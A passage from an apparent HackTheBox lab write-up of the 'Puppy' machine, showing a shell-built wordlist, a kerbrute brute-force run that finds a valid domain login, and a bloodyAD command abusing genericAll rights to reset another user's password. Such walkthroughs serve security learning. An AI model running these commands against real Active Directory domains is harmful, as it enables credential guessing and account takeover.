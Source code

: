 
```bash
$ for user in $(cat users); do for pass in $(cat passwords); do echo $user:$pass; done; done  > wordlist
$ kerbrute bruteforce --dc dc.puppy.htb -d puppy.htb wordlist

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (n/a) - 09/25/25 - Ronnie Flathers @ropnop

2025/09/25 22:46:31 >  Using KDC(s):
2025/09/25 22:46:31 >  	dc.puppy.htb:88

2025/09/25 22:46:32 >  [+] VALID LOGIN:	 ant.edwards@puppy.htb:Antman2025!
2025/09/25 22:46:33 >  Done! Tested 36 logins (1 successes) in 1.531 seconds
```

## adam.silver

back to bloodhound we see that `ant.edwards` is a member of the `SENIOR DEVS` group which has `genericAll` on `adam.silver`

![senior_devs_group_genericAll_on_adam_silver.png](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/refs/heads/master/assets/htb/puppy/senior_devs_group_genericAll_on_adam_silver.png)

we can use it to change `adam.silver`'s password

```bash
$ bloodyAD --host "10.10.11.70" -d puppy.htb -u 'ant.edwards' -p 'Antman2025!' set password adam.silver 'AtHxkTLqW6e9'
[+] Password changed successfully!
```

when I tried longing in as `adam.silver` I found that the account was disabled 
